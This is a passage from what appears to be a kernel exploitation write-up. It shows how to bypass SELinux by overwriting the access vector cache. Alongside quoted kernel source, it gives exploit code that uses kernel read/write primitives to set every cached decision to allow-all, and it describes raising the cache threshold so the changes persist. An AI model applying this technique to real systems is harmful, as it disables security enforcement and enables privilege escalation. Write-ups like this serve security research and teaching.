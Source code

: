 ```c
```
{: file="security/selinux/avc.c" }

```c
struct av_decision {
	u32 allowed;
	u32 auditallow;
	u32 auditdeny;
	u32 seqno;
	u32 flags;
};
```
{: file="security/selinux/include/security.h" }

Therefore, the bypass would look something like this:
```c
#define AVC_CACHE_SLOTS 512
#define AVC_DECISION_ALLOWALL 0xffffffff

void overwrite_avc_cache(uint64_t avc_cache_addr) {
	for (size_t i = 0; i < AVC_CACHE_SLOTS; i++) {
		uint64_t avc_cache_slot_list = kread64(avc_cache_addr + i*sizeof(uint64_t));
		while (avc_cache_slot_list) {
			uint64_t avc_decision_addr = avc_cache_slot_list - 0x1c;
			kwrite32(avc_decision_addr, AVC_DECISION_ALLOWALL);
			avc_cache_slot_list = kread64(avc_cache_slot_list);
		}
	}
}
```
{: file="exploit.c" }

The `avc_cache` is embedded inside the global `selinux_avc`, alongside `avc_cache_threshold`.
```c
struct selinux_avc {
	unsigned int avc_cache_threshold;
	struct avc_cache avc_cache;
};

static struct selinux_avc selinux_avc;
```
{: file="security/selinux/avc.c" }

This `avc_cache_threshold` is used in `avc_alloc_node()` to determine if the AVC cache should be trimmed.
```c
static struct avc_node *avc_alloc_node(struct selinux_avc *avc)
{
	struct avc_node *node;
	[...]
	if (atomic_inc_return(&avc->avc_cache.active_nodes) >
	    avc->avc_cache_threshold)
		avc_reclaim_node(avc);
out:
	return node;
}
```
If we don't want the modified nodes to be ever removed from the cache, we can write `0xFFFFFFFF` to that field.
